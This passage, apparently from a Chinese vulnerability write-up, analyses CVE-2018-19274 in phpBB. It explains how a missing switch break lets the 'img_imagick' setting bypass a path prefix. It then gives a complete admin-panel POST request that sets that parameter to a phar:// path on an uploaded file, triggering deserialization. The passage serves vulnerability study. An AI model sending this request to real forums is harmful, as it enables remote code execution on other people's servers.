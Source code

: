 但是在进入路径判断前有一个三元运算

    $path = in_array($config_definition['validate'], array('wpath', 'path', 'rpath', 'rwpath')) ? $phpbb_root_path . $cfg_array[$config_name] : $cfg_array[$config_name];

经过判断`$config_definition['validate']`在数组之中，所以会走第一个分支，`$cfg_array[$config_name]`就是post数组变量，此处可控，但是会和`$phpbb_root_path`进行拼接。文件位置：`phpBB3/adm/index.php`

![6.png](./resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId31.png)

因此拼接后的`$path`会变成`./../xxxxxxxxxx`，路径出错无法利用，如下。

![7.png](./resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId32.png)

但是这里的整个`switch`语句犯了一个较为低级的错误，部分条件的语句段没有使用`break`进行结束。

`switch`执行方式：开始时没有代码被执行。仅当一个 `case`语句中的值和
`switch`表达式的值匹配时 PHP
才开始执行语句，直到`switch`的程序段结束或者遇到第一个`break`
语句为止。如果不在`case`的语句段最后写上`break`的话，PHP
将继续执行下一个`case`中的语句段。

![8.png](./resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId33.png)

因此需要在`$config_vars`找到一个元素`$config_definition`，并且`$config_definition['validate']`等于`absolute_path`或者`absolute_path_writable`或者`path`，这样就能即进入`wpath`执行也不增加`$path`的前缀

使用如下代码过滤：

    foreach ($display_vars['vars'] as $key =>$value){
        if (($value['validate'] === 'absolute_path') or ($value['validate'] === 'absolute_path_writable') or ($value['validate'] === 'path')){
            print('66'.$key.'77');
        }
    }

发现`img_imagick`元素满足条件：

![9.png](./resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId34.png)

进入控制面板的附件设定，提交并该修改数据包

![10.png](./resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId35.png)

数据包如下，关键点为`config[img_imagick]`参数：

    POST /phpBB3/adm/index.php?i=acp_attachments&mode=attach&sid=385d5172c29a3a9530d6b467a5691ffd HTTP/1.1
    Host: www.0-sec.org
    User-Agent: python-requests/2.21.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 967

    config%5Ballow_attachments%5D=1&config%5Ballow_pm_attach%5D=0&config%5Bupload_path%5D=files&config%5Bdisplay_order%5D=0&config%5Battachment_quota%5D=50&attachment_quota=mb&config%5Bmax_filesize%5D=256&max_filesize=kb&config%5Bmax_filesize_pm%5D=256&max_filesize_pm=kb&config%5Bmax_attachments%5D=3&config%5Bmax_attachments_pm%5D=1&config%5Bsecure_downloads%5D=0&config%5Bsecure_allow_deny%5D=1&config%5Bsecure_allow_empty_referer%5D=1&config%5Bcheck_attachment_content%5D=1&config%5Bimg_display_inlined%5D=1&config%5Bimg_create_thumbnail%5D=0&config%5Bimg_max_thumb_width%5D=400&config%5Bimg_min_thumb_filesize%5D=12000&config%5Bimg_imagick%5D=phar://../files/plupload/c2f830acec21b6d3a45ff0f5b3f35273_5de5caf862ea58bbb27aff231f06c7f3zip.part/&config%5Bimg_max_width%5D=0&config%5Bimg_max_height%5D=0&config%5Bimg_link_width%5D=0&config%5Bimg_link_height%5D=0&submit=Submit&ips=&ipexclude=0&creation_time=1552465991&form_token=0910a5dc9a13fc50a0ead4656617642fa80daaf1
